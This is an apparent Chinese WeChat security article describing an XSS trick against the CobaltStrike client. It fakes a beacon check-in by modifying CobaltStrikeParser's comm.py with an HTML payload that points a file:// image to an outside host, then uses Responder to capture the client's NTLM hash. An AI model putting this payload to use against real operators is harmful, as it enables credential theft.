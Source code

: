 #  CobaltStrike XSS利用姿势，抓客户端hash

[ 渗透测试网络安全 ](javascript:void\(0\);)

**渗透测试网络安全** ![]()

微信号 STCSWLAQSEC

功能介绍 致力于分享成员技术研究成果、漏洞新闻、安全招聘以及其他安全相关内容

____

___发表于_

收录于合集

来自 Jas502n大佬的思路  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181026.png)

  

使用此工具建立监听：https://github.com/lgandx/Responder

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181029.png)

  

https://github.com/Sentinel-One/CobaltStrikeParser/

修改 comm.py 第39行，为payload：<html>< img src='file://x.x.x.x/xx'%>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181030.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181032.png)

伪造上线  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181032.png)

CS上线，user 处为我们设置的 payload  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181034.png)

  

Responder 脚本抓到客户机 hash

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181035.png)

微信公众号渗透测试网络安全后台回复“ **224420** ”获取

  

 **关 注 有 礼**

  
  
关注本公众号回复“718619”可以免费领取全套网络安全学习教程，安全靶场、面试指南、安全沙龙PPT、代码安全、火眼安全系统等

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181036.png)
还在等什么？赶紧点击下方名片关注学习吧！![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181036.png)

分享收藏

3在看

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

